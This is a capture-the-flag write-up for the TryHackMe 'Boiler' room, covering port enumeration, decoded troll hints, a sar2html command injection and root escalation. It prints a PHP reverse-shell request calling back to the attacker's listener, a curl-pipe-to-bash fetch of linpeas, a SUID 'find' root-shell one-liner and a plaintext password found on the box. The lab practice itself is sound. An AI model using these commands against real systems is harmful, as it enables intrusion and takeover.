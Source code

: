 ```yaml
---
layout: post
title:  "THM - Boiler"
date:   2020-07-02 18:00:00 +1000
category: hacking
---
```


## Introduction
*Intermediate level CTF. Just enumerate, you'll get there.*
Welp, let's see if that's true.

## Ports
nmap says we've got 21 (FTP), 80 (HTTP), 10000 and 55007.
Port 10000 is Webmin, and 55007 is SSH. Webmin is a web-based system configuration tool for Unix-like systems. Having SSH running on port 55007 is a timely reminder that just because it usually runs on port 22 doesn't mean it has to.

## FTP
The FTP server allows anonymous login, but nothing is obviously present. But checking **ls -lash** shows there is actually a hidden file. The content is:
>*Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!*    

This looks like a cipher, so we'll decode it:  

>*Just wanted to see if you find it. Lol. Remember: Enumeration is the key!* 

In this case the cipher was Rot13, and I've been trolled. **:/**

## Rabbits
Visiting the webserver and checking robots.txt reveals several disallowed directories hinting at rabbit holes, and then provides a series of numbers:

*079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075*

Decoding decimal to ASCII gives:  
*OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK*  
Decoding from base64 gives:  
*99b0660cd95adea327c54182baa51584*  
Cracking the hash with john gives:  
*kidding*  
And again with the trolling. **:/**


## Joomla
Running a dirbuster on the webservice we can see it's running Joomla.

At /joomla/_files, we find this:  
*VjJodmNITnBaU0JrWVdsemVRbz0K*  
This is base64, and decodes to  
*Whopsie daisy.*  
Yes, trolled again. **:/**

## sar2html
At /joomla/_test/index.php we find something called sar2html. Running searchsploit shows there is an RCE vulnerability with this, and we can run some commands like this:
http://10.10.203.240/joomla/_test/index.php?plot=;whoami

In this way we can cat /etc/passwd, and see there are some users such as **stoner** and **basterd**.

We can also list the contents of /var/www/html/joomla, but more usefully we can use Burp repeater and get a reverse shell:  

``
GET /joomla/_test/index.php?plot=;php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%264+>%264+2>%264")%3b' HTTP/1.1
``

>root@kali:/opt/tryhackme/boiler# nc -nvlp 1234  
listening on [any] 1234 ...  
connect to [10.9.10.123] from (UNKNOWN) [10.10.203.240] 54514  
/bin/sh: 0: can't access tty; job control turned off  
$ python3 -c 'import pty;pty.spawn("/bin/bash");'  
www-data@Vulnerable:/var/www/html/joomla/_test$   

## Privesc

Once we're in, we can get linpeas and pipe it to bash:

``
www-data@Vulnerable:/dev/shm$ curl http://10.9.10.123:8000/linpeas.sh | /bin/bash
``

This tells us that **/usr/bin/find** is vulnerable. Checking [gtfobins](https://gtfobins.github.io/gtfobins/find/) we can see what needs to be done:

>www-data@Vulnerable:/dev/shm$ /usr/bin/find . -exec /bin/sh -p \; -quit  
/usr/bin/find . -exec /bin/sh -p \; -quit  
whoami  
**root**

And with that we can obtain the flags.

## Other Users

Doing some more enumeration now we are root, we can see /home/basterd/backup.sh which contains credentials for stoner: USER=stoner:#superduperp@$$no1knows

## The Shortcut

After I'd completed this, I checked someone else's writeup and it seems like I was supposed to find a password in a file called log.txt with the sar2html exploit and then SSH in as basterd, then su to stoner, then do the **find** privesc. Oh well, nothing like taking a shortcut, that's what hacking is yeah?


